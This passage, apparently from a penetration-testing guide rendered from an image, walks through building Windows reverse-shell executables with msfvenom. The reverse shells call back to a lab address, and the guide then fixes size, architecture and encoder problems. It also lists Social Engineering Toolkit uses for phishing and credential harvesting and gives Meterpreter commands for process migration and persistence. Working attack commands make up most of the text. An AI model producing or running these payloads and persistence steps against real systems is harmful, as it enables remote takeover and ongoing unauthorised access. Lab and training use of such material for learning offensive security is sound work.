 **Payload Size Limitations:**
```bash
# Check payload size
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 --smallest
```

**Architecture Mismatches:**
```bash
# Specify architecture explicitly
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > payload64.exe
```

**Encoding Failures:**
```bash
# Try different encoders
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -e x86/alpha_mixed -f exe > alpha_encoded.exe
```

#### Verification Methods

**Test payload functionality:**
```bash
# Check payload structure
file payload.exe
strings payload.exe

# Test in isolated environment
# Verify listener connectivity
# Confirm execution behavior
```

### Integration with Other Tools

#### Combining with Social Engineering

**Social Engineering Toolkit (SET):**
- Automated payload delivery
- Credential harvesting
- Phishing campaigns

**Custom Scripts:**
- Automated payload generation
- Batch processing
- Custom encoding schemes

#### Post-Exploitation Integration

**Meterpreter Migration:**
```bash
# After payload execution
meterpreter > ps
meterpreter > migrate <stable_process_pid>
```

**Persistence Establishment:**
```bash
# Create persistent access
meterpreter > run persistence -X -i 10 -p 443 -r 10.10.14.113
```
